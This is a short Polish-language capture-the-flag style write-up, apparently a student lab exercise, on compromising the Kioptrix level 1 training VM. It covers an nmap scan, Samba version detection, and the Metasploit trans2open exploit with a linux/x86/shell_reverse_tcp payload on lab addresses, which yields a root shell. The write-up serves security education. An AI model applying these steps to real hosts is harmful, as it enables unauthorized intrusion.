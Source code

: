 # KIOPTRIX - lvl 1

Na podstawie skanowania nmap można zobaczyć, że host ma  6 otwartych portów, w tym port 139 z protokołem Samba smbd. 

![image](https://github.com/wcyb19z-lab/wcyb19z-projekt-ahermani/blob/screenshots/Zadanie%202/Kioptrix/nmap_t4.png)

Żeby sprawdzić dokładną wersję Samby, użyłam skryptu `auxiliary/scanner/smb/smb_version`.

![image](https://github.com/wcyb19z-lab/wcyb19z-projekt-ahermani/blob/screenshots/Zadanie%202/Kioptrix/samba_version.png)

Jak widać, na hoście działa `Samba 2.2.1a`. Poszukałam do niej exploita. 

![image](https://github.com/wcyb19z-lab/wcyb19z-projekt-ahermani/blob/screenshots/Zadanie%202/Kioptrix/searchsploit_samba.png)

A następnie w metasploicie wyszukałam exploita `trans2open`.

![image](https://github.com/wcyb19z-lab/wcyb19z-projekt-ahermani/blob/screenshots/Zadanie%202/Kioptrix/used_exploit.png)

Teraz mogłam użyć exploita, wyszukać i ustawić payload (użyłam `payload linux/x86/shell_reverse_tcp`), a następnie odpowiednie hosty.
 * LHOST 192.168.10.106
 * RHOST 192.168.10.105 - Kioptrix
 
 Uzyskałam dostęp do maszyny i mogłam swobodnie zdalnie przeglądać jej zawartość. Flaga ukryta została w pliku o ścieżce `/var/mail/root`.
 
 ![image](https://github.com/wcyb19z-lab/wcyb19z-projekt-ahermani/blob/screenshots/Zadanie%202/Kioptrix/flag.png)
